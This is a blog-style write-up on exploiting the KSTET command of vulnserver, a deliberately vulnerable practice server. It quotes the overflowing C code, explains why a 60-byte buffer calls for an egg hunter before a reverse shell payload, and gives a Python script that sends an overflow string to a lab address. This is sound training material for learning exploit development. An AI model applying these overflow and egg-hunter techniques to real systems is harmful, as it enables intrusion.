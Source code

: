 ```yaml
---
title: "Exploiting vulnserver: kstet"
date: 2019-02-20
description: "Egg Hunter"
summary: "Egg Hunter"
tags: ["vulnserver", "buffer overflow", "exploit dev"]
---
```


This vulerability is very similar to the one described in the  [TRUN post](/posts/vulnserver/trun.md). However there are some key differences - mainly limitations and restrictions on buffer space.

## The Code

```csharp
if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
    char *KstetBuf = malloc(100);
    strncpy(KstetBuf, RecvBuf, 100);
    memset(RecvBuf, 0, DEFAULT_BUFLEN);
    Function2(KstetBuf);
    SendResult = send( Client, "KSTET SUCCESSFUL\n", 17, 0 );
}

...
void Function2(char *Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

The limitations and restrictions are:


- The `KSTET` command will call `Function2` which only allocates __60__ bytes of memory instead of __2000__ as with the `TRUN` command which calls `Function3`.

	__60__ bytes is too small for our reverse shell payload. We will need to insert an egg hunter here that will search for our final shellcode elsewhere in memory.

- `strncpy(KstetBuf, RecvBuf, 100);`
  
	Only the first __100__ bytes of the user supplied input to the `KSTET` command is passed to `Function2`.

With these limitations and restrictions to the buffer space, we cannot simply exploit `KSTET` with a single command. We will need to send our final shellcode payload in a different command and utilize an egg hunter to locate it. An egg hunter is just a small bit of assembly that can search the entire memory range for a magic string we define (just before our final shellcode) and will redirect execution flow there.

## Exploitation

```python
#!/usr/bin/env python

import socket
import sys

buffer = 'A' * 100
command = 'KSTET '
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()
```